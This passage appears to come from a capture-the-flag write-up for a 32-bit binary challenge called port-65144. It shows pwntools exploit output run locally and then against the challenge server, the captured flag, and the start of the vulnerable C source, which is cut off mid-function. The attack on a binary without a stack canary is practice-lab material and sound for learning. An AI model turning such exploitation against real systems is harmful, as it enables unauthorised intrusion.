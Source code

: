 The output:

```
reisraff@3dbbde46a935:~/workdir/challs/port-65144$ python3 exploit.py
[*] '/home/reisraff/workdir/challs/port-65144/port-65144'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process '/home/reisraff/workdir/challs/port-65144/port-65144': pid 2370
=========================
what the process returned
[*] Process '/home/reisraff/workdir/challs/port-65144/port-65144' stopped with exit code 0 (pid 2370)
Enter your buffer: gotcha func1
gotcha func2
FLAG TEST
```

Now we have to run remotely, since the binary name is port-65144, lets try this port:

```python
# ...
p = pwn.remote('173.230.139.237', '65144')
# ...
```

output:
```
reisraff@3dbbde46a935:~/workdir/challs/port-65144$ python3 exploit.py
[*] '/home/reisraff/workdir/challs/port-65144/port-65144'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process '/home/reisraff/workdir/challs/port-65144/port-65144': pid 2375
[+] Opening connection to 173.230.139.237 on port 65144: Done
=========================
what the process returned
Enter your buffer: gotcha func1
gotcha func2
reisraff{D47a_3xecu710n_Pr3ven71on_owned}

```

The source code of this challenge is:

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdbool.h>
#include <fcntl.h>
#include <sys/mman.h>

bool flag1 = false;
bool flag2 = false;

void func1(int num1, int num2) {
    if (156 == num1 && 300 == num2) {
        flag1 = true;
        puts("gotcha func1");
    }
}

void func2(int num1, int num2, int num3) {
    if (flag1 && !num1 && 13 == num2 && (num1 + num2) == num3) {
```